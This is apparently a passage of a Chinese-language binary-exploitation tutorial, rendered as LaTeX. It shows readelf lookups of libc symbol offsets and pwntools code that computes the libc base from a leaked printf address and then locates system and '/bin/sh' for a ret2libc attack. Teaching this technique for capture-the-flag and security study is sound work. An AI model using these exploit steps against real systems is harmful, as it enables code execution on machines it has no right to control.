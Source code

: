 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\AttributeTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{#1}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\ImportTok}[1]{#1}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{readelf} \AttributeTok{{-}s}\NormalTok{ ./libc.so.6 }\KeywordTok{|} \FunctionTok{grep} \StringTok{\textquotesingle{} system@@\textquotesingle{}}
\CommentTok{\#   1050: 0000000000058740    45 FUNC    WEAK   DEFAULT   17 system@@GLIBC\_2.2.5}
\ExtensionTok{readelf} \AttributeTok{{-}s}\NormalTok{ ./libc.so.6 }\KeywordTok{|} \FunctionTok{grep} \StringTok{\textquotesingle{} printf@@\textquotesingle{}}
\CommentTok{\#   2611: 00000000000600f0   204 FUNC    GLOBAL DEFAULT   17 printf@@GLIBC\_2.2.5}
\end{Highlighting}
\end{Shaded}

\begin{itemize}
\tightlist
\item
  \texttt{@@} 後面是「版本」（\texttt{GLIBC\_\allowbreak{}2.\allowbreak{}2.\allowbreak{}5}），\texttt{@@}
  的意思是「這是預設版本」。
\item
  \texttt{0x58740} / \texttt{0x600f0} 就是\textbf{在 libc 檔內的
  offset}，每次執行都不變。
\end{itemize}

\textbf{然後把 leak 減掉 offset}：

\begin{Shaded}
\begin{Highlighting}[]
\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\NormalTok{libc }\OperatorTok{=}\NormalTok{ ELF(}\StringTok{\textquotesingle{}./libc.so.6\textquotesingle{}}\NormalTok{, checksec}\OperatorTok{=}\VariableTok{False}\NormalTok{)}

\CommentTok{\# 假設你洩漏到 printf 的真實位址（例如用 Format String 讀 printf@got）}
\NormalTok{leaked\_printf }\OperatorTok{=} \BaseNTok{0x7f12345600f0}

\NormalTok{libc.address }\OperatorTok{=}\NormalTok{ leaked\_printf }\OperatorTok{{-}}\NormalTok{ libc.symbols[}\StringTok{\textquotesingle{}printf\textquotesingle{}}\NormalTok{]   }\CommentTok{\# ← 這一行就是「算 libc base」}
\BuiltInTok{print}\NormalTok{(}\BuiltInTok{hex}\NormalTok{(libc.address))        }\CommentTok{\# 0x7f1234500000}
\ControlFlowTok{assert}\NormalTok{ libc.address }\OperatorTok{\&} \BaseNTok{0xfff} \OperatorTok{==} \DecValTok{0}    \CommentTok{\# base 一定是 0x1000 對齊（算錯最便宜的檢查）}

\NormalTok{system }\OperatorTok{=}\NormalTok{ libc.symbols[}\StringTok{\textquotesingle{}system\textquotesingle{}}\NormalTok{]     }\CommentTok{\# pwntools 會自動加上 libc.address → 0x7f1234558740}
\NormalTok{binsh  }\OperatorTok{=} \BuiltInTok{next}\NormalTok{(libc.search(}\StringTok{b\textquotesingle{}/bin/sh\textquotesingle{}}\NormalTok{))   }\CommentTok{\# → 0x7f12346cb42f}
\end{Highlighting}
\end{Shaded}
\end{document}
